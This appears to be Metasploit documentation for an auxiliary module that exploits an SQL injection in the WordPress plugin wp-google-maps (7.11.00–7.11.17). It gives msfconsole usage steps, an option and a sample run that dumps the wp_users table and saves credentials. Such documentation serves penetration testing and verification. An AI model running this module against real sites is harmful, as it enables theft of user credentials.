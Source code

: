 ## Vulnerable Application

This module works against the Wordpress plugin `wp-google-maps` between 7.11.00 and 7.11.17 (included).

[The vulnerable version is available on WordPress' plugin directory](https://downloads.wordpress.org/plugin/wp-google-maps.7.11.17.zip).

## Verification Steps

  1. `msfconsole`
  2. `use auxiliary/admin/http/wp_google_maps_sqli`
  3. `set RHOSTS <rhost>`
  4. Set `DB_PREFIX` if necessary
  5. `run`

## Options

### `DB_PREFIX` 

Change the table prefix. By default, this option is set to `wp_`.

## Scenarios

### wp-google-maps 7.11.17 on WordPress 4.9.5

```
msf auxiliary(admin/http/wp_google_maps_sqli) > exploit
[*] Running module against 172.22.222.144

[*] 172.22.222.144:80 - Trying to retrieve the wp_users table...
[+] Credentials saved in: /home/msfdev/.msf4/loot/20190415065921_default_172.22.222.144_wp_google_maps.j_022930.bin
[+] 172.22.222.144:80 - Found msfdev <hash> <email>
[*] Auxiliary module execution completed
```
